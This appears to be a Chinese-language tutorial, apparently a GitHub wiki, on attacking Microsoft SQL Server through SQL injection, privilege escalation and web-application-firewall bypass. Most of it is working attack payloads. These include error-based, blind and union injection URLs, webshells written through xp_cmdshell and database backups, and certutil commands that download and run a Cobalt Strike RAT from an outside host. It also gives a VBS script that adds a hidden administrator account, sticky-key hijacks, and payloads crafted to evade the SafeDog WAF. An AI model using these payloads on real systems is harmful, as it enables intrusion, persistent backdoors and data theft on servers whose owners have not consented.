

这个教程主要讲到mssql的注入、提权、bypass的一些方法，其中很多知识其实都是用了很久的了，一方面为了迎合新的版本所以全套都使用的
2008 sql server,老版本的一些知识可能没有涉及到。  

本文wiki地址 https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI 喜欢的可以点个小星星

往期wiki  mysql https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI


目录

```
基础

1. MSSQL基本信息

2. MSSQL基本语句

3. MSSQL的符号

4. MSSQL注入基本流程

5. MSSQL报错注入简单绕过

6. MSSQL盲注与联合注入

中级

1. MSSQL备份与命令拿shell

2. MSSQL提权与站库分离

3. MSSQL bypass安全狗

4. MSSQL waf过滤一些符号的绕过

```

# 第一章 MSSQL基本使用

### 0x00 简介

Microsoft SQL Sever 分为很多个版本,版本的不断的升级安全性也越来越高,对我们渗透过程中最喜欢的版本应该就是2008以前，在2008及其以后的版本数据库的权限已经不再是system,为了迎合新的版本我接下来的实验都在2008版本下面进行，同时也介绍以前可以利用的方法，相对于MySQL这个mssql显得重了许多，他众多的功能也给我们注入过程带来了便利，所以一般数据库为mssql支持多语句我们就考虑是不是应该直接拿下webshell。


### 0x01 默认库的介绍

```
master   //用于记录所有SQL Server系统级别的信息，这些信息用于控制用户数据库和数据操作。

model    //SQL Server为用户数据库提供的样板，新的用户数据库都以model数据库为基础

msdb     //由 Enterprise Manager和Agent使用，记录着任务计划信息、事件处理信息、数据备份及恢复信息、警告及异常信息。

tempdb   //它为临时表和其他临时工作提供了一个存储区。

```


这里我们经常要打交道的库也就是master，他储存了我们的所有数据库名等等，还有很多储存过程，所谓储存过程你可以把他理解成一个函数调用的过程。

>储存过程是一个可编程的函数，它在数据库中创建并保存。它可以有SQL语句和一些特殊的控制结构组成。当希望在不同的应用程序或平台上执行相同的函数，或者封装特定功能时，存储过程是非常有用的。数据库中的存储过程可以看做是对编程中面向对象方法的模拟。它允许控制数据的访问方式。




我们以master库为例可以看到上面几个东西,其中视图表master.dbo.sysdatabases储存所有数据库名,其他数据库的视图则储存他本库的表名与列名。
每一个库的试图表都有syscolumns存储着所有的字段，可编程性储存着我们的函数。

```
select name from master.dbo.sysdatabases;


master
tempdb
model
msdb
test
asp_net
asp_test

```


mssql的储存过程是我们利用的重点，他天然支持多语句，也为我们注入提供了便利，我们可以通过查看可编程性里面的函数来查找他的功能，发现一些新的东西


### 0x02 字段的介绍

```
select top 1 name,xtype from sysobjects;

name    xtype
sysrscols   S 

```

xtype可以是下列对象类型中的一种： 
C = CHECK 约束　　D = 默认值或 DEFAULT 约束　　F = FOREIGN KEY 约束　　L = 日志　　FN = 标量函数 
IF = 内嵌表函数 　　P = 存储过程 　　PK = PRIMARY KEY 约束（类型是 K） 　　RF = 复制筛选存储过程 
 S = 系统表 　　TF = 表函数 　　TR = 触发器 　　U = 用户表 　　UQ = UNIQUE 约束（类型是 K） 
V = 视图 　　X = 扩展存储过程


### 0x03 创建数据库

```
use asp_net;

create table admin  
(  
id int primary key , 
username varchar(50) null, 
password varchar(50) null

);

insert into admin(id,username,password) values(1,'admin','admin');

```

其查询方式与mysql的语法大同小异。

# 第二章 MSSQL信息收集

### 0x00 权限判断

#### 服务器级别

我们可以在docs上面看到 `IS_SRVROLEMEMBER ( 'role' [ , 'login' ] ) `  函数 role 的有效值是用户定义的服务器角色和以下固定服务器角色：


返回类型:

返回值|描述
-|-|
0|login 不是 role 的成员。
1|login 是 role 的成员。
NULL|role 或 login 无效，或者没有查看角色成员身份的权限。

最终我们可以构造语句

```
and 1=(select is_srvrolemember('sysadmin'))

and 1=(select is_srvrolemember('serveradmin'))

and 1=(select is_srvrolemember('setupadmin'))

and 1=(select is_srvrolemember('securityadmin'))

and 1=(select is_srvrolemember('diskadmin'))

and 1=(select is_srvrolemember('bulkadmin'))

```


我们在sqlmap中使用 --is-dba 也就是判断的你是否为管理员权限

```
select * from admin where id =1 AND 5560 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(113)+CHAR(107)+CHAR(113)+(SELECT (CASE WHEN (IS_SRVROLEMEMBER(CHAR(115)+CHAR(121)+CHAR(115)+CHAR(97)+CHAR(100)+CHAR(109)+CHAR(105)+CHAR(110))=1) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(120)+CHAR(113)))

```


#### 数据库级别的角色

```
select IS_MEMBER('db_owner')  

```


### 0x01 基本信息

```
@@version // 数据库版本

user  //获取当前数据库用户名

db_name() // 当前数据库名 其中db_name(N)可以来遍历其他数据库

;select user //查询是否支持多语句

```


### 0x02 判断站库分离

```
select * from info where id='1'and host_name()=@@servername;--'

```

最简单的方法，当然你可以调用xp_cmdshell 就可以通过cmd来判断。


通过简单的判断数据库版本，当前用户权限，我们就可以想下一步怎么去做，比如2005的xp_cmdshell 你要知道他的权限一般是system 而2008他是nt authority\network service

# 第三章 MSSQL符号

### 0x00 注释符号

```
/* 

--

;%00

```


### 0x01 空白字符

```
01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20

/**/


```

### 0x02 运算符号

```
+   加法运算
-   减法运算
*   乘法运算
/   除法运算，如果两个表达式值都是整数，那么结果只取整数值，小数值将略去
%   取模运算，返回两数相除后的余数

&   位与逻辑运算，从两个表达式中取对应的位。当且仅当输入表达式中两个位的值都为1时，结果中的位才被设置为1，否则，结果中的位被设置为0
|   位或逻辑运算，从两个表达式中取对应的位。如果输入表达式中两个位只要有一个的值为1时，结果的位就被设置为1，只有当两个位的值都为0时，结果中的位才被设置为0
^   位异或运算，从两个表达式中取对应的位。如果输入表达式中两个位只有一个的值为1时，结果中的位就被设置为1；只有当两个位的值都为0或1时，结果中的位才被设置为0

=   等于 
<>  不等于
>   大于  
!=  不等于
<   小于  
!<  不小于
>=  大于或等于   
!>  不大于
<=  小于或等于

ALL 如果一组的比较都为true，则比较结果为true
AND 如果两个布尔表达式都为true，则结果为true；如果其中一个表达式为false，则结果为false
ANY 如果一组的比较中任何一个为true，则结果为true
BETWEEN 如果操作数在某个范围之内，那么结果为true
EXISTS  如果子查询中包含了一些行，那么结果为true
IN  如果操作数等于表达式列表中的一个，那么结果为true
LIKE    如果操作数与某种模式相匹配，那么结果为true
NOT 对任何其他布尔运算符的结果值取反
OR  如果两个布尔表达式中的任何一个为true，那么结果为true
SOME    如果在一组比较中，有些比较为true，那么结果为true

```


### 0x03 语法定义符号

```

< > 尖括号，用于分隔字符串，字符串为语法元素的名称，SQL语言的非终结符。


::= 定义操作符。用在生成规则中，分隔规则定义的元素和规则定义。 被定义的元素位于操作符的左边，规则定义位于操作符的右边。


[ ] 方括号表示规则中的可选元素。方括号中的规则部分可以明确指定也可以省略。


{ } 花括号聚集规则中的元素。在花括号中的规则部分必须明确指定。


() 括号是分组运算符

```


跟mysql一样，熟练的了解这些数据库的符号特性，有利于我们绕过WAF。


# 第四章 MSSQL注入基本流程

### 0x00 第一个注入

建议大家可以本地搭建后用sqlmap注入查看他的注入语句

```
sqlmap -u "http://192.168.130.137/1.aspx?id=1"  --is-dba -v3

```

判断当前数据库

```
http://192.168.130.137/1.aspx?id=1'and db_name()>0;--

```


爆表名

```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from sysobjects where xtype='u' and name !='info');--

```


爆列名

```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name = 'admin') and name<>'id');--

```


爆数据


```
http://192.168.130.137/1.aspx?id=1' and 1=(select top 1 username from admin);--

```


因为mssql没有limit 所以只能用top 加上后面的判断来遍历数据


### 0x02 其他用法

当然查询数据库的所有表你还可以使用 `INFORMATION_SCHEMA.TABLES` 

```
select * from INFORMATION_SCHEMA.TABLES

select * from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME='admin'

http://192.168.130.137/1.aspx?id=1 and 1=(select top 1 table_name from information_schema.tables
);--

```


我们要判断当前表名和列名 也可以使用 `having 1=1` 和 `group by`

```
http://192.168.130.137/1.aspx?id=1 having 1=1

```


爆出当前表和字段

```
http://192.168.130.137/1.aspx?id=1 group by info.id,info.name having 1=1

```


爆出所有的字段


# 第五章 MSSQL注入基本流程

### 0x00 简介

在上一章我们已经了解到了报错注入，其实MSSQL报错注入利用的就是显示或隐式转换来报错注入,比如以下就是典型的隐式转换

```
select * from admin where id =1 and (select user)>0--

select * from admin where id =1|(select user)--

在将 nvarchar 值 'dbo' 转换成数据类型 int 时失败。

```

显示转换也就是利用函数来转换，我们经常用到的两个函数就是cast和convert

```
CAST( expression AS data_type )

CONVERT(data_type[(length)], expression [, style])

```

```
select * from admin where id =1 (select CAST(USER as int))

select * from admin where id =1 (select convert(int,user))

```


### 0x01 简单绕过注入

因为在前面一章我已经写过一些简单的报错注入了，所以这里引进一个`declare` 函数，他是mssql声明局部变量的函数，我们经常用它来绕过waf对一些关键词的拦截

```
select * from admin where id =1;declare @a nvarchar(2000) set @a='select convert(int,@@version)' exec(@a) --

```

declare定义变量 set设置变量值 exec执行变量


变量的值是支持hex和ascii码的,当过滤引号我们就可以这么用 把我们的语句编码一下

```
select * from admin where id =1;declare @s varchar(2000) set @s=0x73656c65637420636f6e7665727428696e742c404076657273696f6e29 exec(@s)--

select * from admin where id =1;declare @s varchar(2000) set @s= CHAR(115) + CHAR(101) + CHAR(108) + CHAR(101) + CHAR(99) + CHAR(116) + CHAR(32) + CHAR(99) + CHAR(111) + CHAR(110) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(116) + CHAR(40) + CHAR(105) + CHAR(110) + CHAR(116) + CHAR(44) + CHAR(64) + CHAR(64) + CHAR(118) + CHAR(101) + CHAR(114) + CHAR(115) + CHAR(105) + CHAR(111) + CHAR(110) + CHAR(41) exec(@s)--

```


如果你绕过了declare 那么waf基本没啥用了，这里如果你用hackbar的话记得把加号url编码。


# 第六章 MSSQL盲注与联合注入

### 0x00 盲注

#### 布尔盲注

其实跟mysql大同小异 无非就是分割字符串比较，但是mssql的盲注套路确实没那么多


```
http://192.168.130.137/1.aspx?id=1 and ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)) >= 109

```


#### 时间盲注


```
http://192.168.130.137/1.aspx?id=1;if (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--

http://192.168.130.137/1.aspx?id=1;if (ascii(substring((select top 1 name from master.dbo.sysdatabases),1,1)))>1 WAITFOR DELAY '0:0:5'--


```


当然盲注你也可以使用前面提到的declare 灵活运用吧,对于盲注这块感觉mssql不如mysql灵活


### 0x02 联合注入

mssql联合注入我们一般不使用 数字占位，而是null，因为你使用数字占位可能会发生隐式转换


```
http://192.168.130.137/1.aspx?id=1 union select 1,2,3

```


```
http://192.168.130.137/1.aspx?id=1 union select null,name,pass from info

```


当然也可以这样用

```
http://192.168.130.137/1.aspx?id=1 SELECT 1 UNION (select CAST(USER as int))

```


在mssql中我们如果想查询多条数据可以使用%2B 也就是加号

```
http://192.168.130.137/1.aspx?id=1 union select null,name%2Bpass,null from info

```


# 第七章 MSSQL备份拿shell


### 0x00 简介

备份拿shell也就涉及到了权限的问题，SA权限不用说没有降权的话基本能做任何事情了，它数据库权限是`db_owner`，当然其他用户如果也拥有 `db_owner` 基本也可以通过备份拿下shell，但是在设置目录权限后就不行了。


### 0x01 路径的寻找

需要路径的我们一般有几个思路：

1. 报错寻找 

2. 字典猜

3. 旁站信息收集

4. 调用储存过程来搜索

6. 读配置文件


这里我们着重讨论一下储存过程也就是这些函数来找我们的网站根目录 一般我们可以用xp_cmdshell xp_dirtree 

`xp_dirtree` `xp_subdirs`

```
execute master..xp_dirtree 'c:' //列出所有c:\文件和目录,子目录 
execute master..xp_dirtree 'c:',1 //只列c:\文件夹 
execute master..xp_dirtree 'c:',1,1 //列c:\文件夹加文件 

```

那么我们怎么利用呢，执行xp_dirtree返回我们传入的参数如果你想吧文件名一起返回来，因为没有回显所以可以这样创建一个临时的表插入

```
http://192.168.130.137/1.aspx?id=1;CREATE TABLE tmp (dir varchar(8000),num int,num1 int);

http://192.168.130.137/1.aspx?id=1;insert into tmp(dir,num,num1) execute master..xp_dirtree 'c:',1,1

```


`xp_cmdshell`

这个xp_cmdshell 找起来更加方便我们调用cmd的命令去搜索，比如我的web目录有个1.aspx  

```

C:\Users\Aleen>for /r c:\ %i in (1*.aspx) do @echo %i
c:\Users\Aleen\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.
IE5\8KB2ZI22\1[1].aspx
c:\www\1.aspx

```

所以我只需要建立一个表 存在一个char字段就可以了

```
http://192.168.130.137/1.aspx?id=1;CREATE TABLE cmdtmp (dir varchar(8000));

http://192.168.130.137/1.aspx?id=1;insert into cmdtmp(dir) exec master..xp_cmdshell 'for /r c:\ %i in (1*.aspx) do @echo %i'


```


当然你可能遇到xp_cmdshell不能调用 如果报错

>SQL Server 阻止了对组件 'xp_cmdshell' 的 过程'sys.xp_cmdshell' 的访问，因为此组件已作为此服务器安全配置的一部分而被关闭。系统管理员可以通过使用 sp_configure 启用。

可以用如下命令恢复

```
;EXEC sp_configure 'show advanced options',1;//允许修改高级参数
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;  //打开xp_cmdshell扩展
RECONFIGURE;--

```

当然还不行可能xplog70.dll需要恢复，看具体情况来解决吧 ，这些问题百度一堆一堆的。

其他的可以利用的储存过程还有sp_oamethod什么的不是本文讨论的重点了，因为2008的xp_cmdshell 权限不是2005那样的system 所以不考虑加账号

`xp_regread`

通过读注册表 这个在win2000才有用 就不多说了

```
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SYSTEM\ControlSet001\Services\W3SVC\Parameters\Virtual Roots','/'

```

### 0x02 xp_cmdshell拿shell

虽然是备份拿shell顺便提下，我们找到目录了权限能调用xp_cmdshell来写那样就很轻松了也就不需要备份了。

```
http://192.168.130.137/1.aspx?id=1;exec master..xp_cmdshell 'echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["pass"],"unsafe");%^> > c:\\WWW\\404.aspx' ;

```

由于cmd写webshell的主意这些转义的问题 当然条件允许也可以使用certutil或者vbs什么的来下载


### 0x03 差异备份

能通过xp_cmdshell拿下webshell的情况现在也不算多了，备份拿shell还算常见 具体步骤搞过的朋友都知道。

```
1. backup database 库名 to disk = 'c:\bak.bak';--

2. create table [dbo].[test] ([cmd] [image]);

3. insert into test(cmd) values(0x3C25657865637574652872657175657374282261222929253E)

4. backup database 库名 to disk='C:\d.asp' WITH DIFFERENTIAL,FORMAT;--

```


差异备份我们有多种情况可能不成功，一般就是目录权限的问题，第一次备份的目录是否可能没有权限，第二次备份到网站目录是否有权限，所以一般不要直接备份到c盘根目录


当过滤了特殊的字符比如单引号，或者 路径符号 都可以使用前面提到的 定义局部变量来执行。


### 0x04 LOG备份

LOG备份的要求是他的数据库备份过，而且选择恢复模式得是完整模式，至少在2008上是这样的，但是使用log备份文件会小的多，当然如果你的权限够高可以设置他的恢复模式

```
alter database 库名 set RECOVERY FULL

```

```
1. alter database 库名 set RECOVERY FULL 

2. create table cmd (a image) 

3. backup log 库名 to disk = 'c:\xxx' with init 

4. insert into cmd (a) values (0x3C25657865637574652872657175657374282261222929253E) 

5. backup log 库名 to disk = 'c:\xxx\2.asp'

```

相对于差异备份，log备份的好处就是备份出来的webshell的文件大小非常的小我数据库没啥东西，前面备份出来2000k这个只有83k。


# 第八章 MSSQL提权与站库分离

### 0x00 xp_cmdshell

上一章备份中已经提到这个函数，在我们遇到站库分离的时候，没办法写webshell，后台也没办法拿下shell的情况下不妨试试用xp_cmdshell下载我们的RAT直接拿下数据库
下载文件我们有几个常用的思路如下

1. certutil

2. vbs

3. bitsadmin

4. powershell

5. ftp

这里我就用Cobalt Strike 不会的朋友可以看看我前面写的CS教程,他来搞这几个过程比较方便，我这里就以certutil为例，其他的用法在网上都很多的。

上传到一个可读可写的目录

```
exec master.dbo.xp_cmdshell 'cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe';

exec master.dbo.xp_cmdshell 'cd c:\www & file.exe';

```


顺道还用cs自带的ms14-058提权了一下


### 0x01 sp_oacreate

当xp_cmdshell 被删除可以使用这个来提权试试,恢复sp_oacreate

```
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'Ole Automation Procedures', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'show advanced options', 0;

```

sp_oacreate是一个非常危险的存储过程可以删除、复制、移动文件 还能配合sp_oamethod 来写文件执行cmd

在以前的系统有这几种用法 

1. 调用cmd 来执行命令 

```
wscript.shell执行命令

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'


Shell.Application执行命令
declare @o int
exec sp_oacreate 'Shell.Application', @o out
exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';

```

2. 写入启动项

```
declare @sp_passwordxieo int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';

```

3. 粘贴键替换

```
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';

```

大家可以灵活运用，这里也可以这样玩，把他写成vbs或者其他的来下载文件 ，为什么不直接调用cmd来下载，再2008系统上我是不成功的，但是sp_oacreate可以启动这个文件，所以换个思路

```
declare @sp_passwordxieo int, @f int, @t int, @ret int;
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out;
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'c:\www\1.bat', 1;
exec @ret = sp_oamethod @f, 'writeline', NULL,'@echo off';
exec @ret = sp_oamethod @f, 'writeline', NULL,'start cmd /k "cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe"';


declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\1.bat'

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\file.exe'

```


当然这里只是一种思路，你完全可以用vbs来下载什么的


### 0x02 沙盒

由于环境问题我这里就不演示了

```
1. exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

2. exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

3. Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Databasec:\windows\system32\ias\ias.mdb','select shell( net user itpro gmasfm /add )');

```

引用前辈们的话

>1，Access可以调用VBS的函数，以System权限执行任意命令
>2，Access执行这个命令是有条件的，需要一个开关被打开
>3，这个开关在注册表里
>4，SA是有权限写注册表的
>5，用SA写注册表的权限打开那个开关
>6，调用Access里的执行命令方法，以system权限执行任意命令执行SQL命令，执行了以下命令


# 0x03 xp_regwrite

修改注册表 来劫持粘贴键 当然在2008数据库是不成立的 因为默认权限很低

```

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution
Options\sethc.EXE','Debugger','REG_SZ','C:\WINDOWS\explorer.exe';

```


### 0x04 pulic

这种pulic提权 实际情况也很少吧,也是提一下了

```
USE msdb
EXEC sp_add_job @job_name = 'GetSystemOnSQL', www.2cto.com
@enabled = 1,
@description = 'This will give a low privileged user access to
xp_cmdshell',
@delete_level = 1
EXEC sp_add_jobstep @job_name = 'GetSystemOnSQL',
@step_name = 'Exec my sql',
@subsystem = 'TSQL',
@command = 'exec master..xp_execresultset N''select ''''exec
master..xp_cmdshell "dir > c:\agent-job-results.txt"'''''',N''Master'''
EXEC sp_add_jobserver @job_name = 'GetSystemOnSQL',
@server_name = 'SERVER_NAME'
EXEC sp_start_job @job_name = 'GetSystemOnSQL'

```


mssql众多的储存过程是我们利用的关键 当然还有很多可能没被提出，需要自己的发现，比如在遇到iis6的拿不了shell还有个上传可以跳目录，不妨试试xp_create_subdir
建立个畸形目录解析。


# 第九章 MSSQL—bypass安全狗


### 0x00 简介

BYPASS无非就是上一期MYSQL讲到的那些方法，灵活的运用即可，值得注意的是我们MSSQL搭配的一般都是 ASP/ASPX IIS 等等,其中我们可以利用容器的特性，和脚本语言的
特性绕过比如ASPX的hpp，iis处理%符号的机制，但是我这里就直接想办法在数据库方面来绕过。


### 0x01 简单的爆错bypass

测试环境 IIS+ASPX+MMSQL+IIS安全狗4.0.2229

简单的判断语句测试

```
and 不拦截

and 1 拦截

and -1 不拦截

and -1=-1 不拦截

and ~1 不拦截

and ~1=1 拦截

and ~1=~1 不拦截

```

差不多判断下 安全狗对负数不是很敏感，对数学运算后的布尔值也不是敏感。

and这块绕过了就可以爆出一些基本的信息了，比如用db_name()、user和@@version 都是可以直接用的，并不会被拦截，至少在我这个版本的狗是这样。

```
and @@version>~1

and (user|1)>-1

and (db_name()|1)>.1

```


我们试试直接通过mssql的一些特性来绕过，爆表名的语句

```
and ~1=(select top 1 name from sysobjects where xtype='u' and name !='info');--  拦截

and ~1=(select top 1 name from);--  不拦截

and ~1=(select top 1 name from 1);-- 拦截

and ~1=(select top 1 name from a);--  拦截

and ~1=(select top 1 name from !);--  不拦截

```

可见安全狗在这里拦截的是我们from后面跟字符型或者数字型，我们就只需要找到一个符号来包裹他就可以，在mssql中可以包裹表库名称的符号是[] 

```
and ~1=(select top 1 name from[sysobjects]);--

```

确实也不拦截继续往后测试

```
and ~1=(select top 1 name from[sysobjects] where xtype='u');--  拦截

and ~1=(select top 1 name from[sysobjects] where xtype=);-- 不拦截

```

很简单我们在mssql中可以用char 和hex 来编码我们的表名

```
and ~1=(select top 1 name from[sysobjects] where xtype=0x75);--
```

基本上已经绕过了我们的爆出第一个表名的目的，假如要爆其他的表名 测试发现也是拦截 引号字符而已 用相同的方法绕过即可

```
and ~1=(select top 1 name from[sysobjects] where xtype=0x75 and name not in (CHAR(105)%2BCHAR(110)%2BCHAR(102)%2BCHAR(111),CHAR(97)%2BCHAR(100)%2BCHAR(109)%2BCHAR(105)%2BCHAR(110)));

```


其实还有一种方法爆表名利用INFORMATION_SCHEMA,但是安全狗有个设置直接拦截这个关键词，但是不是默认开启的，顺便提一下

```
http://192.168.130.137/1.aspx?id=1 and ~1=(select top 1 table_name from [INFORMATION_SCHEMA].[TABLES] where table_name not in (char(105)%2Bchar(110)%2Bchar(102)%2Bchar(111)));--

```


### 0x02 简单的联合bypass

union/*!1113*/

联合注入感觉是个非常简单的bypass过程，因为安全狗的规则把mysql和mssql混为一谈 

```
union 不拦截

union select 拦截

unionselect 拦截

```

感觉是不是已经很绝望没办法绕过了，不妨试试注释，虽然mssql没有内联注释

```
union/*select*/ 不拦截

union/*!select*/ 拦截

union/*!1select*/ 不拦截

```

我们试试闭合他，他还拦截不

```
union/*!1*/select--*/  不拦截

```

我们的最终的payload也构造好了

```
http://192.168.130.137/1.aspx?id=1 union/*!1*/select null,name,null from [info]--*/

```


### 0x03 盲注与储存过程

我们前面讲过mysql的一个绕过手法就是注释加换行，这个其实在mssql中也是成立的，所以直接构造payload

```
http://192.168.130.137/1.aspx?id=1--/*%0aif (select IS_SRVROLEMEMBER('sysadmin'))=1 WAITFOR DELAY '0:0:5'--%20*/

```

储存过程

```
http://192.168.130.137/1.aspx?id=1--/*%0aexec xp_create_subdir 'c:\text'--%20*/

```

你可以把当做万能bypass语句，里面的任何代码安全狗都不会拦截


# 文末

#### 本文如有错误，请及时提醒，避免误导他人

BY 404
